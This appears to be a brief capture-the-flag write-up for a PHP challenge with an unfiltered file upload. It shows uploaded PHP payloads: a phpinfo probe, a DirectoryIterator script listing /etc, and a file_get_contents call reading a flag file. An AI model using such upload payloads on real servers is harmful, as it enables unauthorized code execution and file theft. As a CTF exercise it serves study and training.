



### WTF php

Challenge was a classic file upload without file filter.
uploaded php file with phpinfo()

Restricted file() and system()



uploaded another php containing

```
<?php
$iterator=new DirectoryIterator('/../../../../../etc/');
while ($iterator->valid()) {
    echo $iterator->current()->getFilename() . '</br>';
    $iterator->next();
}

?>

```
outputed all files in etc directory



final php upload containing the flag contents

```
$file = file_get_contents('/../../../../etc/f1@g.txt');
echo $file;

```

